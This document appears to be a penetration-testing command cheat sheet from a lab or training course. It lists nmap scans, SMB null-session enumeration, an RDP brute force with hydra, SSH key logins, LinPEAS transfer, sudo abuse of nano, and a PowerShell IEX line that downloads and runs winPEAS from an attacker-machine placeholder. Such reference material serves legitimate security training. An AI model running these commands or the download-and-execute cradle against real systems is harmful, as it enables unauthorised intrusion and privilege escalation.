 | **Command** | **Description** |
|-------------|-----------------|
| `nmap -sV -p- 10.129.12.0/24 -oA network-scan` | Scan an entire network with version detection and all ports. Save the output in all formats. |
| `nmap -p21,22,443 -sV -sC 10.129.12.10` | Scan a target IP address for specific ports with service detection and apply default enumeration scripts. |
| `ftp 10.129.12.10 21` | Connect to a FTP server on port 21. |
| `ftp> get <file>` | Download a file from a FTP server. |
| `ftp> ls -al` | List all files in the FTP server's directory. |
| `wpscan -e p --url https://<IP> --disable-tls-checks --no-banner --plugins-detection passive -t 100` | Scan a web server for WordPress and enumerate plugins passively. |
| `msfconsole -q` | Start the Metasploit Framework. |
| `msf6> search <term>` | Search for metasploit modules. |
| `chmod 600 id_rsa` | Change permissions of a file. |
| `ssh -i id_rsa john@10.129.12.10` | Use private SSH key to login to an SSH server as user "john". |
| `ssh john@10.129.12.10` | Login to an SSH server as user "john" with a password. |
| `wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh` | Download the LinPEAS bash script. |
| `scp -i id_rsa ./linpeas.sh john@10.129.12.10:/home/john` | Transfer a file to the target by using a private SSH key through SSH. |
| `bash linpeas.sh` | Execute a bash script. |
| `sudo -l` | Check sudo privileges of the current user. |
| `sudo /usr/bin/nano` | Run the Nano editor with root privileges. |
| `crackmapexec smb 10.129.12.20` | Enumerate SMB shares of the target. |
| `crackmapexec smb 10.129.230.148 -u '' -p '' --users` | Enumerate users through SMB using NULL session. |
| `crackmapexec smb 10.129.230.148 -u guest -p '' --shares` | Enumerate available shares after logging in as the user Guest. |
| `hydra -l john -p "password" rdp://10.129.230.148` | Brute force attack on RDP. |
| `xfreerdp /u:john /p:"password" /v:10.129.230.148 /w:1366 /h:768` | Login to as user John to the target through RDP. |
| `PS C:\Users\john> whoami /priv` | Show all privileges for the current user on Windows. |
| `PS C:\Users\john> whoami /groups` | Display all groups the current user is member of on Windows. |
| `PS C:\Users\john> schtasks /query /fo LIST /v` | List all available scheduled tasks on Windows. |
| `python3 -m http.server 8080` | Start an HTTP server on port 8080 using Python. |
| `powershell "IEX(New-Object Net.WebClient).downloadString('http://<attacking-machine-IP>:8080/winPEAS.ps1')"` | Download and execute a powershell script on Windows. |
| `PS C:\\ProgramData> icacls "C:\script.ps1"` | Check the file permissions on Windows. |
| `PS C:\Users\john> net user john` | List information about the user John. |